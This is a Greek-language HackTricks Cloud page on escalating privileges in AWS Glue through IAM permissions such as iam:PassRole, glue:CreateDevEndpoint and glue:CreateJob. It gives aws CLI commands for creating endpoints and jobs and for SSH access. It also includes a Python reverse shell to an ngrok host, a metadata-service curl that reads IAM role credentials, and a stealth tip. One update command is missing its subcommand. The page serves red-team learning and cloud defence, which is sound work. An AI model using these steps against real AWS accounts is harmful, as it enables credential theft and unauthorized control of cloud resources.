# AWS - Ανύψωση Προνομίων στο Glue

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν **να δημιουργήσουν ένα νέο σημείο ανάπτυξης AWS Glue**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας που μπορεί να υιοθετηθεί από το Glue** με συγκεκριμένες άδειες σε αυτό το σημείο.

Μετά την εγκατάσταση, ο **επιτιθέμενος μπορεί να συνδεθεί μέσω SSH στην προσβάσιμη μονάδα του σημείου**, και να κλέψει τα διαπιστευτήρια IAM του ανατεθειμένου ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για λόγους αόρατης λειτουργίας, συνιστάται να χρησιμοποιήσετε τα διαπιστευτήρια IAM από μέσα στην εικονική μηχανή Glue.

**Πιθανή Επίπτωση:** Ανύψωση προνομιακών δικαιωμάτων στον καθορισμένο ρόλο υπηρεσίας Glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτήν την άδεια μπορούν **να τροποποιήσουν ένα υπάρχον ανάπτυξης Glue** τερματικό SSH key, **ενεργοποιώντας την πρόσβαση SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελέσει εντολές με τα προνόμια του ρόλου που είναι συνδεδεμένος με το τερματικό:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανή Επίδραση:** Ανέλιξη προνομίων στον ρόλο υπηρεσίας glue που χρησιμοποιείται.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Οι χρήστες με το **`iam:PassRole`** σε συνδυασμό με το **`glue:CreateJob` ή `glue:UpdateJob`**, και είτε το **`glue:StartJobRun` είτε `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν ένα AWS Glue job**, συνδέοντας οποιονδήποτε **λογαριασμό υπηρεσίας Glue**, και να ξεκινήσουν την εκτέλεση της δουλειάς. Οι δυνατότητες της δουλειάς περιλαμβάνουν την εκτέλεση αυθαίρετου κώδικα Python, ο οποίος μπορεί να εκμεταλλευτεί για τη δημιουργία ενός αντίστροφου κελύφους. Αυτό το αντίστροφο κέλυφος μπορεί στη συνέχεια να χρησιμοποιηθεί για την εξαγωγή των **διαπιστευτηρίων IAM** του ρόλου που είναι συνδεδεμένος με τη δουλειά Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες βασισμένες στα δικαιώματα εκείνου του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανή Επίδραση:** Privesc στον ρόλο υπηρεσίας glue που καθορίζεται.

### `glue:UpdateJob`

Απλά με την άδεια ενημέρωσης, ένας επιτεθείς θα μπορούσε να κλέψει τα IAM διαπιστευτήρια του ήδη συνδεδεμένου ρόλου.

**Πιθανή Επίδραση:** Privesc στον ρόλο υπηρεσίας glue που είναι συνδεδεμένος.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 στην ομάδα [**Discord**](https://discord.gg/hRep4RUj7f) ή στην ομάδα [**telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
